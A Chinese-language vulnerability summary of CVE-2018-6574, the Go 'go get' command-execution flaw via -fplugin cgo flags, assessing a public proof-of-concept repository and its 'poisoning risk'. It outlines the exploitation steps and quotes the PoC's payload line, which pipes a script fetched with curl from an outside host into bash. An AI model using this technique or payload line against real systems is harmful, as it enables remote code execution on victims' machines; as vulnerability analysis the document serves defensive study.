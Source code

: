 ## CVE-2018-6574-go-get远程命令执行

**漏洞编号:** CVE-2018-6574

**漏洞类型:** 远程命令执行

**影响应用:** Go

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** Go before 1.8.7, Go 1.9.x before 1.9.4, and Go 1.10 pre-releases before Go 1.10rc2

**利用条件:** 需要目标机器安装受影响版本的Go，且执行`go get`命令

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2018-6574 允许攻击者在受害者构建源代码时执行远程命令。漏洞原因是 `go get` 命令没有正确过滤 gcc 或 clang 插件的参数 `-fplugin=` 和 `-plugin=`。攻击者可以通过构造包含恶意插件选项的 Go 项目，诱导受害者使用 `go get` 命令获取并构建该项目，从而执行任意命令。

**有效性：**

根据漏洞描述和提供的POC代码，漏洞利用的有效性较高。POC代码通过 `#cgo` 指令设置编译选项，利用 `-fplugin` 选项加载恶意的动态链接库，从而在编译时执行预定义的命令。根据`pentesterlab.com/exercises/cve-2018-6574`中的描述，攻击者可以诱骗用户安装恶意包从而执行代码。

**投毒风险：**

该仓库中存在一定的投毒风险，但风险较低。`README.md` 中说明了漏洞利用方式，并明确表示仅用于评估目的。虽然包含了一个`curl`命令，但该命令相对简单，易于检测，攻击者可能通过其他方式进行恶意行为，例如植入更隐蔽的后门程序。该curl命令从外部源获取并执行脚本，存在被篡改的可能。综合考虑，投毒风险大约为10%。

**利用方式：**

1.  攻击者创建一个包含恶意代码的Go项目，该项目使用`#cgo`指令，在编译选项中包含`-fplugin=`或`-plugin=`，指向一个包含恶意代码的动态链接库（如 `calc.so` 或 `calc_darwin.so`）。
2.  攻击者将该项目托管在一个公开的Git仓库中。
3.  攻击者诱导受害者使用受影响版本的Go执行`go get <攻击者仓库地址>`命令。
4.  当`go get`命令构建项目时，会执行恶意动态链接库中的代码，从而实现远程命令执行。
5.  POC中，`calc_darwin.so`（或者其他平台的 `.so` 文件）被设计为执行 `curl newton.cycarrier:8002 | /bin/bash`，这意味着它会从攻击者的服务器下载并执行一个Shell脚本。

**项目地址:** [frozenkp/CVE-2018-6574](https://github.com/frozenkp/CVE-2018-6574)

**漏洞详情:** [CVE-2018-6574](https://nvd.nist.gov/vuln/detail/CVE-2018-6574)